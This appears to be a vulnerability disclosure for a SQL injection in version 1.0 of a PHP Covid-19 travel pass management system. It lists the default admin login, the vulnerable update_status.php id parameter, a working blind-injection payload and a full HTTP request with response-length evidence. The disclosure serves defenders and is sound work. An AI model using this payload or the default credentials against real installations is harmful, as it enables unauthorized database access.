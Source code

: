 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/admin/individuals/update_status.php?id=

Vulnerability location: /ctpms/admin/individuals/update_status.php?id=,id

[+] Payload: /ctpms/admin/individuals/update_status.php?id=2%27%20and%20length(database())%20=8--+ // Leak place ---> id

Current database name: ctpms_db,length is 8

```sql
GET /ctpms/admin/individuals/update_status.php?id=2%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
```
When length (database ()) = 7, Content-Length: 1819

![image](https://user-images.githubusercontent.com/54017627/167081855-77744532-764d-40cf-b777-525a89a1b388.png)

![image](https://user-images.githubusercontent.com/54017627/167081943-a7d9fcd1-3380-4314-bf7f-4b82456c93a4.png)

When length (database ()) = 8, Content-Length: 1828

![image](https://user-images.githubusercontent.com/54017627/167081786-c5f66ea9-71dd-4ad9-84c8-d5fec663896d.png)

![image](https://user-images.githubusercontent.com/54017627/167081912-cec200c0-60a9-4815-8bcd-6729e5a07a79.png)
